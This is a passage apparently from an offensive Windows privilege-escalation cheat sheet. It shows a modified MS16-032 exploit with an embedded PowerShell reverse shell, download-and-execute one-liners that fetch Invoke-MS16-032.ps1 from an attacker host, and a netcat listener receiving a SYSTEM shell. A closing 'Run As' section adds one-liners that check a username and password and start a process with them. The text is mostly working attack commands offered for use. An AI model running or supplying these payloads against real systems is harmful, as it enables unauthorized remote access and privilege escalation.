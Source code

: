 ```powershell
			'-NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "&{$client = New-Object System.Net.Sockets.TCPClient(\"10.10.10.10\",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"^> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"',
			0x00000004, $null, $GetCurrentPath,
			[ref]$StartupInfo, [ref]$ProcessInfo)
```

On the remote host execute the exploit:
```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/Invoke-MS16-032.ps1'))"
```
Or from a Windows Powershell:
```powershell
PS C:\> IEX(New-Object Net.Webclient).downloadString('http://10.10.10.10/Invoke-MS16-032.ps1')
```
Or if you wanted to upload the exploit, you can always run it like this:
```powershell
PS C:\> powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"
```
On our Kali machine we create the reverse shell and ... BOOM! Root dance.
```
root@kali:~# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.10.11] from (UNKNOWN) [10.10.10.10] 49182

PS C:\Users\jimmy^> whoami
nt authority\system
```

## Windows Run As
Prior to successfully performing a Windows run as, we of course need a valid windows username and password.
Here is a oneliner powershell script to verify a username / password is valid on the local system:

Requires .Net 3.5
``` cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "&{$username = '<username here>'; $password = '<password here>'; $computer = $env:COMPUTERNAME; Add-Type -AssemblyName System.DirectoryServices.AccountManagement; $obj = New-Object System.DirectoryServices.AccountManagement.PrincipalContext('machine',$computer); $obj.ValidateCredentials($username, $password); }"
```
Requires .Net 2.0  
```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "&{$username = '<username here>'; $password = '<password here>'; $securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Start-Process -FilePath C:\Windows\System32\calc.exe -NoNewWindow -Credential $credential; }"
```
